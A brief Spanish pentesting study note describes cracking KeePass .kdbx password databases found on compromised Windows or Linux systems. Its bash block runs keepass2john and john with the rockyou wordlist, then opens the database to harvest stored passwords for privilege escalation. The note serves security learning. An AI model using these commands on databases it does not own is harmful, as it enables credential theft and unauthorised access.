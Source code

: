-----
- Tags: #escalada #teoria #practica
-----

# Archivos .kdbx 

Puede darse el caso de que tanto para sistemas #windows como sistemas #linux, se encuentren archivos con la extención **.kdbx** extención pertenecientes a base de datos del **gestor de contraseñas** kepass. 

De manera que podríamos hacer uso de herramientas como **keepass2john** para extraer el hash de la contraseña y posteriormente intentar romperlo con ataques de fuerza bruta. 

```bash
# Extraer el hash de la base de datos y guardarlo en el archivo hash
keepass2john {file.kdbx} > hash 
# Realizar un ataque de fuerza bruta al hash extraido 
john -w:/usr/share/wordlists/rockyou.txt hash 
# Una vez conseguido el hash podríamos abrirnos la base de datos con keepass
sudo apt install keepassxc
keepassxc {file.kdbx}
```

De manera que en uno de los mejores casos, esto nos podría servir para escalar privilegios  o pivotear a usuarios con mayores privilegios con contraseñas almacenadas en el interior de la base de datos. 